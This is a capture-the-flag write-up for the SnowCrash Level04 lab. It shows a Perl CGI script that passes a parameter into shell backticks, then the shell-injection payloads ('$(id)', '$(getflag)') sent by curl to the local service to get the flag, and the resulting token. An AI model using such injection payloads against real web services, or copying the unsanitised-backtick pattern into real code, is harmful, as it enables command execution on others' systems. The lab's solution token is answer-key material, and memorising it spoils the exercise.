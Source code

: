 # Level04

This time we have a perl script ran as flag04.

	\#!/usr/bin/perl
	\# localhost:4747
	use CGI qw{param};
	print "Content-type: text/html\n\n";
	sub x {
	  $y = $_[0];
	  print `echo $y 2>&1`;
	}
	x(param("x"));

So the script would print the value of the parameter "x" passed as argument to stdin.
There is no input validation so we can try to send some commands : 

	level04@SnowCrash:~$ ./level04.pl 'x=$(id)'
	Content-type: text/html
	
	uid=2004(level04) gid=2004(level04) groups=2004(level04),100(users)

We are still executing as level04 and not flag04 so we can't run getflag.
However, we can see on the second line of the program that it could be run by a server.

	level05@SnowCrash:~$ netstat -tunl
	Active Internet connections (only servers)
	Proto Recv-Q Send-Q Local Address           Foreign Address         State
	tcp        0      0 0.0.0.0:4242            0.0.0.0:*               LISTEN
	tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN
	tcp6       0      0 :::4646                 :::*                    LISTEN
	tcp6       0      0 :::4747                 :::*                    LISTEN
	tcp6       0      0 :::80                   :::*                    LISTEN
	tcp6       0      0 :::4242                 :::*                    LISTEN
	udp        0      0 0.0.0.0:68              0.0.0.0:*

There is indeed a process listening on port 4747. If we try to connect to it using nc :

	level04@SnowCrash:~$ nc localhost 4747
	x=test
	
	level04@SnowCrash:~$ nc localhost 4747
	x=$(id)

Not much going on. If we send a GET request using curl instead : 

	level04@SnowCrash:~$ curl 'localhost:4747/?x=$(id)'
	uid=3004(flag04) gid=2004(level04) groups=3004(flag04),1001(flag),2004(level04)
	
	level04@SnowCrash:~$ curl 'localhost:4747/?x=$(getflag)'
	Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap

